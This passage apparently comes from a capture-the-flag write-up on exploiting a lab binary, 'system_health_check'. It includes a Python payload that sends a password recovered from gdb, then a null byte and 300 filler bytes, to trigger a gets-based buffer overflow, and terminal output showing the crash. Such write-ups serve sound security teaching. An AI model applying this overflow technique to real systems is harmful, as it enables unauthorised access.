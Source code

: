 

So, for the get a buffer overflow I have to send the correct password (I already known because I saw in `gdb`.) and exploit the difference between *gets* and *strcmp*.  One stop before `
` and other before `\x0`.  

# The Exploit 



##  Buffer Overflow 



First thing is know the padding of buffer that allow me control  point*.  Let me write a simple python code for this:

```python
def main():
    
    # creating payload
    #     
    
    payload=[
        b"sUp3r_S3cr3T_P4s5w0rD\x00",
        b"A" * 300
        
    ]
    
    payload=b"".join(payload)
    sys.stdout.buffer.write(payload)

if __name__ == "__main__":
    main()
```



Running the script I reach a `buffer overflow`.

```python
┌[root☮2d6562dcd579]-(/pwd)
└> python3 asd.py | ./system_health_check
Enter password to get system details:

Access Granted

top - 16:19:14 up 58 min,  0 users,  load average: 0.13, 0.06, 0.01
Tasks:   5 total,   1 running,   4 sleeping,   0 stopped,   0 zombie
%Cpu(s):  0.0 us,  1.7 sy,  0.0 ni, 98.3 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
MiB Mem :   1987.5 total,   1000.9 free,    329.5 used,    657.1 buff/cache
MiB Swap:   1024.0 total,   1024.0 free,      0.0 used.   1492.0 avail Mem

  PID USER      PR  NI    VIRT    RES    SHR S  %CPU  %MEM     TIME+ COMMAND
    1 root      20   0    4184   2956   2736 S   0.0   0.1   0:00.02 bash
    7 root      20   0   11200   6976   4780 S   0.0   0.3   0:01.76 zsh
  425 root      20   0    2340   1328   1252 S   0.0   0.1   0:00.00 system_health_c
  426 root      20   0    2588    740    664 S   0.0   0.0   0:00.00 sh
  427 root      20   0    7040   3412   2984 R   0.0   0.2   0:00.00 top
[1]    424 done                python3 asd.py |
       425 segmentation fault  ./system_health_check
```
